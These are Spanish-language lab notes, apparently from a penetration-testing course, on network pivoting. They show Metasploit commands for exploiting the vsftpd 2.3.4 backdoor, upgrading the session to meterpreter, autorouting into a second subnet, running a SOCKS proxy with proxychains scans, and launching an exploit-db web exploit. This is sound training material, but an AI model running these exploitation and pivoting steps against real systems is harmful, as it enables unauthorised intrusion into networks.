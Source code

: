 
Para ver el funcionamiento de pivoting se plantea un ejemplo:

Hosts víctima:
1. 192.87.244.3
2. 192.18.69.3

Primero vamos a realizar un scan al primer host:

![[Pasted image 20250307091327.png]]

![[Pasted image 20250307091439.png]]

Parece que tenemos un ftp y un servicio ssh.  La versiónd el FTP parace bastante antigua, si buscamos los sploits disponibles podemos dar con alguno.

![[Pasted image 20250307091522.png]]

```bash
msfconsole -q
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.87.244.3
exploit
```

![[Pasted image 20250307091700.png]]

```bash
#Vamos a poner está sesión de fondo y mejorarla a un meterpreter.
^Z
sessions -u 1
#Con esto podemos mejorar la sesión a un meterpreter.

#Vamos a ver que ip nos interesa analizxar
sessions 2
ipconfig
```

![[Pasted image 20250307091915.png]]

```bash
background
use post/multi/manage/autoroute
set SUBNET 192.18.69.0
set SESSION 2
exploit

#hay que ver que versión socks estamos utilizando con
cat /etc/proxychains.conf
#Esta al final, en el ejmplo es 4

use auxiliary/server/socks4a
#Para saber el server port también está al final del proxychains.conf
set SRVPORT 9050
exploit

#Hay que abrir una nueva tab
proxychains nmap -sT -Pn 192.18.69.3
```

![[Pasted image 20250307093352.png]]

Como no hemos vinculado puertos no podemos entrar en el navegador y observar la web del puerto 80. Pero podemos hacer una consulta por proxychains.

```bash
proxychains curl http://192.18.69.3
```

![[Pasted image 20250307093511.png]]

Parece que existen exploits para la tecnología que está utilizando el servidor web.

```bash
#Vamos a utilizar el primero de esos exploits
cp /usr/share/exploitdb/exploits/php/remote/38730.py .
#Ver funcionamiento
cat 38730.py
proxychains python 38730.py http://182.18.69.3/clipper/ admin password
```

![[Pasted image 20250307093920.png]]
